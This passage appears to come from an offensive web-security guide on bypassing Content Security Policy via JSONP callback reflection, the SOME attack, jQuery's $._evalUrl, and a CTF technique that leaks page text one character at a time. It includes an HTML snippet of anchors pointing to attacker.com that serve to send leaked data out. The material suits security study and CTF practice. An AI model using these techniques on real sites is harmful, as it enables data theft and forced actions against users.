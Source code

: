 Another idea instead of _storing_ data, is **reflecting** data. If there is any page that generates a response you can turn into valid JavaScript code, you may be able to abuse it for your payload. [JSONP](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt) or other callback endpoints are also useful here as they always have the correct `Content-Type`, and may allow you to insert arbitrary code in place of the `?callback=` parameter, serving as your reflection of valid JavaScript code.

### SOME attack

Not all callback parameters are equal. Most nowadays restrict the possible characters, so you should fuzz exactly what character are and aren't allowed.

In case only `[a-zA-Z.]` is allowed, arbitrary JavaScript is not possible. However, you can still access certain elements through properties and then call methods like [`.click()`](https://developer.mozilla.org/en-US/docs/Web/API/HTMLElement/click) to submit forms. Even on other pages through `opener`. This is called the SOME attack, with a generator below:

{% embed url="https://someattack.com/Playground/About" %}

***

If _jQuery_ exists on the page and `$` & `_` are allowed (like in Express [`res.jsonp()`](https://expressjs.com/en/api.html#res.jsonp)), you can call [`$._evalUrl()`](https://github.com/jquery/jquery/blob/main/src/manipulation/_evalUrl.js) which evaluates the current page's content as JavaScript if there is no argument. It does so by **fetching the current** `location.href` and then putting its content in a `<script>` tag.\
It can be useful when:

1. You have a URL that returns valid JavaScript content, but with the wrong content type/nosniff
2. The URL can be turned into a jQuery-enabled page, for example, by sending a POST request to receive an error page (without changing the URL)
3. That page should have a more lax CSP that allows inline scripts or `strict-dynamic`

Using the SOME page, you'll be able to call `opener.$._evalUrl` to make it fetch itself with a GET request, which returns some malicious content, and then gets executed.

Note that this is a very specific technique where a lot of preconditions are required, but the same ideas may be able to be applied elsewhere.

***

With `[` & `]` characters allowed, and nesting of them (like in Express [`res.jsonp()`](https://expressjs.com/en/api.html#res.jsonp)), another really powerful primitive becomes available: variable member access. With this you can program a tiny bit of logic in JavaScript to not only call a function, but call different functions depending on certain conditions.

One unintended solution by [@realansgar](https://bsky.app/profile/realansgar.dev) to the _idekCTF 2025 - jnotes_ challenge was using a limited HTML injection to create a list of anchor tags with unique IDs:

```html
<a id="a" href="https://attacker.com/a" target="top">
<a id="b" href="https://attacker.com/b" target="top">
<a id="c" href="https://attacker.com/c" target="top">
...
```

Then, we can find some text we want to leak, and access it through common SOME techniques and `innerText` (note `children[42]` allows you to take some shortcuts). You can extract the first character of the text on the page you want to leak using `.innerText[0]`.\
Now the trick is, we can access `window[...]` with the character returned from this, and if it matches any `id=` of the `<a>` tags we created, we will have a reference to that specific link. Finally, executing the `.click()` method on that will visit the link, leaking the first character.
